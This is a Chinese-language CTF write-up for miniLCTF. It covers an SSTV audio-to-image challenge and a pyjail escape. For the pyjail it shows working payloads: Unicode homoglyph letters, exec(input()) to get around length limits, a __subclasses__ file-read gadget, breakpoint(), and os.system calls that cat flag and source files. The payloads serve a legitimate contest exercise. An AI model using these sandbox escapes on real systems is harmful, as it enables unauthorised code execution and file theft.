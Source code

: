 # miniLCTF{1t_w0rk5_w1th_SSTV_@nd_R0b0t36!}

## SSTV 音频转换图片

### pwd文件 在Audacity中打开，调到查看音频频谱，发现压缩包密码

### 在图片中发现一半flag，分离wav文件，用SSTV发现另外一半

# minilctf{nYx6cdmtzziRnZ0mS2kPd4GLouv-nbe-}

## pyjail

### kali nc连接

### 多次尝试输入并发现

#### 限制输入长度

##### 查询资料获取解决方法

###### 使用exec(input()) 绕过输入长度限制

#### 限制字母

太绝对了，不能用字母怎么执行代码啊啊啊啊啊

##### 百度一下我就知道

###### 居然可以用斜体字母绕过

###### 猜想限制的为ascll码的字母，但有其他长得一样的字母，unicode码不一样

验证

![2](assets/2.png)

![3](assets/3.png)

验证成功

##### 一个个换属实麻烦，那就用python，简简单单啦

```
𝑎,𝑏,𝑐,𝑑,𝑒,𝑓,𝑔,𝘩,𝑖,𝑗,𝑘,𝑙,𝑚,𝑛,𝑜,𝑝,𝑞,𝑟,𝑠,𝑡,𝑢,𝑣,𝑤,𝑥,𝑦,𝑧
a = ['𝑎', '𝑏', '𝑐', '𝑑', '𝑒', '𝑓', '𝑔', '𝘩', '𝑖', '𝑗', '𝑘', '𝑙', '𝑚', '𝑛', '𝑜', '𝑝', '𝑞', '𝑟', '𝑠', '𝑡', '𝑢', '𝑣', '𝑤',
     '𝑥', '𝑦', '𝑧']
c = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w',
     'x', 'y', 'z']
b = list(input())
for i in b:
    if i in c:
        print(a[ord(i) - 97], end='')
    else:
        print(i, end='')
```

#### 可以进行计算

##### 并没有什么用

### 解决

#### 尝试输入字母

oh hacker!

#### 查询资料，可以用八进制表示代码（震惊，还有这种操作）

##### 验证

![4](assets/4.png)

也没运行啊喂

###### 再次百度，原来得加 exec

再来

![5](assets/5.png)

淦没结果

再次百度，原来得加 print

再来

![6](assets/6.png)

##### 检验成功

##### 但是还是得加exec 还是得输入字母

##### 淦

#### 只要查不死，就继续查   发现可以跟换字母字体（还有这种操作）

##### 赶紧去试一试

![7](assets/7.png)

芜湖

理论基础已经成立

开始试pyload

### 多次尝试pyload

#### pyload

##### one

```
().__𝑐𝑙𝑎𝑠𝑠__.__𝑏𝑎𝑠𝑒𝑠__[0].__𝑠𝑢𝑏𝑐𝑙𝑎𝑠𝑠𝑒𝑠__()[40]('./𝑓𝑙𝑎𝑔').𝑟𝑒𝑎𝑑()
input too long
```

#### 淦，还有一个输入过长没解决

##### 查，接着查！

###### 使用exec(input()) 绕过输入长度限制

![8](assets/8.png)

至少不是 too long

###### two

```
𝘩𝑒𝑙𝑝()  请求支援，请求支援
__main__
```

![9](assets/9.png)

发现一些好像有点用的东西

###### three

```
breakpoint()   函数进入pdb调试模式
先用step进入模块，可以使用list查看当前代码块
```

![11](assets/11.png)

发现很有用的东西

###### four

```
__import__('os').system('ls')
```

![1](assets/1.png)

###### five

```
__import__('os').system('cat ./flag')
```

![12](assets/12.png)

终于获得flag 

###### six

```
__import__('os').system('cat chall.py')
```

![10](assets/10.png)

代码拿来吧你